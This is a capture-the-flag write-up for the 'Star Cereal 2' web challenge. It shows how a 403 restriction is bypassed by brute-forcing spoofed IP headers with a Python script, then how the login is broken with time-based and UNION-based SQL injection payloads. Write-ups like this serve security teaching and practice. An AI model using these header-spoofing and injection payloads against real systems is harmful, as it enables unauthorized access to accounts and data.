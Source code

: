 ```yaml
---
title: N0H4TS CTF - Star Cereal 2
date: 2021-08-02 17:19:00 +0800
categories: [ctf]
tags: [php, sqli]
---
```


# Description

> Ha, that was sneaky! But I've patched the login so that people like you can't gain access anymore. Stop hacking us!
> 
> `http://20.198.209.142:55045`
> 
> _The flag is in the flag format: STC{...}_
> 
> **Author: zeyu2001**

# Solution

![](/assets/images/cereal2_1.jpg)

The page doesn't much different from `Star Cereal 1`, but when we click on `Login` or browse to `/login.php`, we get a `403 Forbidden` response.

![](/assets/images/cereal2_2.jpg)

Back on the home page, there were some comments from the developer:

```html
<!--
Star Cereal page by zeyu2001

TODO:
	1) URGENT - fix login vulnerability by disallowing external logins (done)
	2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Based on this, we guessed that the login page can only be viewed when accessing from a specific private IP range (`172.16.2.0/24`), but when we are browsing this page, we are actually accessing from a public IP! In order to trick the web server, we could inject some `HTTP` headers into our requests. We managed to get a list from this [repo](https://github.com/intrudir/403fuzzer/blob/master/header_payloads.txt) and stripped some irrelevant headers and the hardcoded IP addresses:

```
Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url
```

We then used `Python` to brute force the `HTTP` headers while testing all the possible IP addresses in the `172.16.2.0/24` range.   

```python
headers = """Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Scheme
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url""".split("\n")

import sys
import request

for header in headers:
    for a in range(256):
        ip = f"172.16.2.{a}"
        r = requests.get("http://20.198.209.142:55045/login.php", headers = {header: ip})
        if r.status_code != 403:
            print(f"{header}: {ip}")
            sys.exit(0)
```

After a while, we see that we were able to bypass the `403 Forbidden` using the following `HTTP` header and value.  

```
X-Forwarded-For: 172.16.2.24
```

To inject the `HTTP` header into our browser, we used this [Firefox extension](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/).

![](/assets/images/cereal2_3.jpg)

Browsing to `/login.php`, we see a familiar login page:

![](/assets/images/cereal2_4.jpg)

This time there was no `MFA` field, so we guessed that it no longer had the insecure deserialization vulnerability and we focused on testing for other classes of web vulnerabilities.

We were able to deduce it was vulnerable to SQL injection when we submitted `' union select sleep(5),null ;-- ` (Note there is a trailing space character) into the password field:

```
email=asd%40asd.com&pass='%20union%20select%20sleep(5)%2cnull%20%3b--%20
```

Which caused the page to hang for 5 seconds before sending a response! 

We also noted that the basic `' or 1=1;-- ` did not work, possibly because the table we are querying from may have been empty. To overcome this, we could utilise the `UNION SELECT` to inject a row into query results by submitting `' union select "asd@asd.com", "password" ;-- `. This would result in the following query to run:

```sql
SELECT email, password FROM admins UNION SELECT "asd@asd.com", "password" ;--
```

Which will definitely return at least one row and bypass the authentication to allow us to get the flag!

![](/assets/images/cereal2_5.jpg)

# Flag
`STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}`
